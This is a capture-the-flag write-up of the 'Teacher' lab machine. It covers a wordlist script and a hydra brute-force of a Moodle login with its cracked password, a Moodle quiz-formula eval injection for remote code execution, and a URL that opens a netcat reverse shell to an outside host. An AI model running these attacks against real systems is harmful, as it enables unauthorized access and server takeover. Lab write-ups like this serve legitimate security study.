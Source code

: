 We got a partial password from the `5.png` file but we're missing the last letter. I used the following script to generate a wordlist:

```python
f = open('pwd', 'w')
for i in range (0,127):
	f.write('Th4C00lTheacha{}\n'.format(chr(i)))
```	

Then using hydra we can bruteforce the `giovanni` account. We'll match on `Set-Cookie` as a positive response since the cookie is only set when we submit the correct credentials.

```
# hydra -I -l giovanni -P pwd.txt 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-01 21:37:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 128 login tries (l:1/p:128), ~8 tries per task
[DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie
[80][http-post-form] host: 10.10.10.153   login: giovanni   password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-01 21:38:06
```

We found the password: `Th4C00lTheacha#`

We can now log in to the Moodle webpage with `giovanni / Th4C00lTheacha#`:

![](/assets/images/htb-writeup-teacher/giovanni.png)

I googled vulnerabilities for Moodle and found a [blog post](https://blog.ripstech.com/2018/moodle-remote-code-execution/) about an RCE vulnerability in the Math formulas of the Quiz component. Basically, the math formula uses the PHP `eval` function to return the result and the input sanitization that is put in place in Moodle is not sufficient and can bypassed. Once we have RCE we can spawn a reverse shell. 

First we add a new quiz:
![](/assets/images/htb-writeup-teacher/quiz.png)

Then create a question with 'Calculated' type:
![](/assets/images/htb-writeup-teacher/calculated.png)

We can put anything in the question name and text but for the formula we enter ``/*{a*/`$_GET[0]`;//{x}}``
![](/assets/images/htb-writeup-teacher/formula.png)

The formula will execute code we put in the `$_GET['0']` parameter:

`10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=(nc -e /bin/bash 10.10.14.23 4444)`
